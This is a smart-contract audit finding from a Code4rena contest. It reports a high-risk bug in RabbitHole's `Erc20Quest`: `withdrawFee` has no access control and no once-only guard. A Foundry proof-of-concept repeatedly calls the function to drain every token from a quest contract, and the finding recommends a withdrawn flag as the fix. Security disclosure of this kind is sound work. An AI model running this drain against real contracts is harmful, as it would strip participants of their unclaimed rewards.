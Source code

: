 ## Tags

- bug
- 3 (High Risk)
- disagree with severity
- primary issue
- satisfactory
- selected for report
- H-02

# [Protocol fees can be withdrawn multiple times in `Erc20Quest`](https://github.com/code-423n4/2023-01-rabbithole-findings/issues/605) 

# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Erc20Quest.sol#L102-L104


# Vulnerability details

The `withdrawFee` function present in the `Erc20Quest` contract can be used to withdraw protocol fees after a quest has ended, which are sent to the protocol fee recipient address:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Erc20Quest.sol#L102-L104

```solidity
function withdrawFee() public onlyAdminWithdrawAfterEnd {
    IERC20(rewardToken).safeTransfer(protocolFeeRecipient, protocolFee());
}
```

This function doesn't provide any kind of protection and can be called multiple times, which will send more tokens than intended to the protocol fee recipient, stealing funds from the contract.

## Impact

The `withdrawFee` function can be called multiples after a quest has ended, potentially stealing funds from other people. The contract may have funds from unclaimed receipts (i.e. users that have completed the quest, redeemed their receipt but haven't claimed their rewards yet) and remaining tokens from participants who didn't complete the quest, which can be claimed back by the owner of the quest.

Note also that the `onlyAdminWithdrawAfterEnd` modifier, even though it indicates that an "admin" should be allowed to call this function, only validates the quest end time and fails to provide any kind of access control:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Quest.sol#L76-L79

```solidity
modifier onlyAdminWithdrawAfterEnd() {
    if (block.timestamp < endTime) revert NoWithdrawDuringClaim();
    _;
}
```

This means that anyone could call this function, so even if the quest owner or the protocol fee recipient behave correctly, a griefer could potentially call this function right after the quest end time to remove all (or most) of the funds from the contract.

## PoC

In the following demonstration, the `withdrawFee` function is called multiple times by a bad actor to remove all tokens from the quest contract.

```solidity
contract AuditTest is Test {
    address deployer;
    uint256 signerPrivateKey;
    address signer;
    address royaltyRecipient;
    address minter;
    address protocolFeeRecipient;

    QuestFactory factory;
    ReceiptRenderer receiptRenderer;
    RabbitHoleReceipt receipt;
    TicketRenderer ticketRenderer;
    RabbitHoleTickets tickets;
    ERC20 token;

    function setUp() public {
        deployer = makeAddr("deployer");
        signerPrivateKey = 0x123;
        signer = vm.addr(signerPrivateKey);
        vm.label(signer, "signer");
        royaltyRecipient = makeAddr("royaltyRecipient");
        minter = makeAddr("minter");
        protocolFeeRecipient = makeAddr("protocolFeeRecipient");

        vm.startPrank(deployer);

        // Receipt
        receiptRenderer = new ReceiptRenderer();
        RabbitHoleReceipt receiptImpl = new RabbitHoleReceipt();
        receipt = RabbitHoleReceipt(
            address(new ERC1967Proxy(address(receiptImpl), ""))
        );
        receipt.initialize(
            address(receiptRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // factory
        QuestFactory factoryImpl = new QuestFactory();
        factory = QuestFactory(
            address(new ERC1967Proxy(address(factoryImpl), ""))
        );
        factory.initialize(signer, address(receipt), protocolFeeRecipient);
        receipt.setMinterAddress(address(factory));

        // tickets
        ticketRenderer = new TicketRenderer();
        RabbitHoleTickets ticketsImpl = new RabbitHoleTickets();
        tickets = RabbitHoleTickets(
            address(new ERC1967Proxy(address(ticketsImpl), ""))
        );
        tickets.initialize(
            address(ticketRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // ERC20 token
        token = new ERC20("Mock ERC20", "MERC20");
        factory.setRewardAllowlistAddress(address(token), true);

        vm.stopPrank();
    }

    function signReceipt(address account, string memory questId)
        internal
        view
        returns (bytes32 hash, bytes memory signature)
    {
        hash = keccak256(abi.encodePacked(account, questId));
        bytes32 message = ECDSA.toEthSignedMessageHash(hash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, message);
        signature = abi.encodePacked(r, s, v);
    }

    function claimReceipt(address account, string memory questId) internal {
        (bytes32 hash, bytes memory signature) = signReceipt(account, questId);
        vm.prank(account);
        factory.mintReceipt(questId, hash, signature);
    }
    
    function test_Erc20Quest_ProtocolFeeWithdrawMultipleTimes() public {
        address alice = makeAddr("alice");
        address attacker = makeAddr("attacker");

        uint256 startTime = block.timestamp + 1 hours;
        uint256 endTime = startTime + 1 hours;
        uint256 totalParticipants = 1;
        uint256 rewardAmountOrTokenId = 1 ether;
        string memory questId = "a quest";

        // create, fund and start quest
        vm.startPrank(deployer);

        Erc20Quest quest = Erc20Quest(
            factory.createQuest(
                address(token),
                endTime,
                startTime,
                totalParticipants,
                rewardAmountOrTokenId,
                "erc20",
                questId
            )
        );

        uint256 rewards = totalParticipants * rewardAmountOrTokenId;
        uint256 fees = (rewards * factory.questFee()) / 10_000;
        deal(address(token), address(quest), rewards + fees);
        quest.start();

        vm.stopPrank();

        // simulate at least one user claims a receipt
        claimReceipt(alice, questId);

        // simulate time elapses until the end of the quest
        vm.warp(endTime);

        // The following can be executed by attacker (griefer) or by the fee recipient
        vm.startPrank(attacker);

        uint256 protocolFee = quest.protocolFee();
        uint256 withdrawCalls = (rewards + fees) / protocolFee;

        for (uint256 i = 0; i < withdrawCalls; i++) {
            quest.withdrawFee();
        }

        // Fee recipient has 100% of the funds
        assertEq(token.balanceOf(protocolFeeRecipient), rewards + fees);
        assertEq(token.balanceOf(address(quest)), 0);

        vm.stopPrank();
    }
}
```

## Recommendation

Add a flag to the contract to indicate if protocol fees have been already withdrawn. Add a check to prevent the function from being called again.
